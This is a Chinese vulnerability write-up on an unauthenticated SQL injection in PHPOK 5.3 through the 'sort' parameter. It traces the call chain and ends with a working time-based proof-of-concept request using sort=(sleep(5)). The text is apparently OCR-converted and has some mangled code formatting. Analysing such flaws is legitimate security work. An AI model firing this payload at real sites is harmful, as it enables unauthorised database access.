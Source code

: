 # PHPOK 5.3 前台无限制注入

> 原文：[https://www.zhihuifly.com/t/topic/3088](https://www.zhihuifly.com/t/topic/3088)

# PHPOK 5.3 前台无限制注入

## 一、漏洞简介

## 二、漏洞影响

PHPOK 5.3

## 三、复现过程

### 漏洞分析

注入点：framework/model/list.php#arc_all

```
public function arc_all($project,$condition='',$field='*',$offset=0,$psize=0,$orderby='')
    {
        if($this->_total > 100000 && $offset > 10000){
            return $this->_arc_all($project,$condition,$field,$offset,$psize,$orderby);
        }
        $sql  = " SELECT ".$field." FROM ".$this->db->prefix."list l ";
        $sql .= " JOIN ".$this->db->prefix."list_".$project['module']." ext ";
        $sql .= " ON(l.id=ext.id AND l.site_id=ext.site_id AND l.project_id=ext.project_id) ";
        if($project['is_biz']){
            $sql .= " LEFT JOIN ".$this->db->prefix."list_biz b ON(b.id=l.id) ";
        }
        if($project['cate'] && $project['cate_multiple']){
            $sql.= " LEFT JOIN ".$this->db->prefix."list_cate lc ON(l.id=lc.id) ";
        }
        if($condition){
            $sql .= " WHERE ".$condition." ";
        }
        // 拼接$orderby参数
        if($orderby){
            $sql .= " ORDER BY ".$orderby." ";
        }
        if($psize){
            $sql .= " LIMIT ".intval($offset).",".$psize;
        }
        //注入
        $rslist = $this->db->get_all($sql,'id');
        if(!$rslist){
            return false;
        }
        return $this->_arc_list_format($rslist,$project);
    }
回溯寻找调用链：framework/phpok_call.php#_arclist

private function _arclist($rs,$cache_id=’’)

{

// 264行

$orderby = $rs[‘orderby’] ? $rs[‘orderby’] : $project[‘orderby’];

```
// 270行 调用arc_all函数，将$orderby传入
$rslist = $this-&gt;model('list')-&gt;arc_all($project,$condition,$field,$offset,$psize,$orderby); 
``` 
```

回溯：framework/api/project_control.php#load_module

```
private function load_module($rs,$parent_rs='')
{
    // 91行
    $keywords = $this->get("keywords");
    $ext = $this->get("ext");
    $tag = $this->get("tag");
    $uid = $this->get('uid','int');
    $attr = $this->get('attr');
    //价格，支持价格区间
    $price = $this->get('price','float');
    $sort = $this->get('sort');

```
//186行
if($sort){
    $dt['orderby'] = $sort;  // 可控
    $pageurl .= '&amp;sort='.rawurlencode($sort);
    $this-&gt;rlist['sort'] = $sort;
}
// 208行，通过phpok函数动态调用_arclist()函数
    $info = $this-&gt;call-&gt;phpok('_arclist',$dt); 
``` 
```

继续回溯，找谁调用了load_module()：framework/api/project_control.php#index_f

```
public function index_f()
{
    //65行
        if($project["module"]){
        $this->load_module($project,$parent_rs);
    }
} 
```

在控制器里以_f结尾的函数都可以直接被调用

构造poc:

```
http://0-sec.org/api.php?c=project&f=index&token=1234&id=news&sort=(sleep(5)) 
```

### 漏洞复现

poc

```
GET /api.php?c=project&f=index&token=1234&id=news&sort=(sleep(5)) HTTP/1.1
Host: phpok5_3_147
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3833.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSION=l87bngd1u307g20iudfmphisu4; XDEBUG_SESSION=PHPSTORM
Connection: close 
```

## 四、参考链接

> https://xz.aliyun.com/t/6831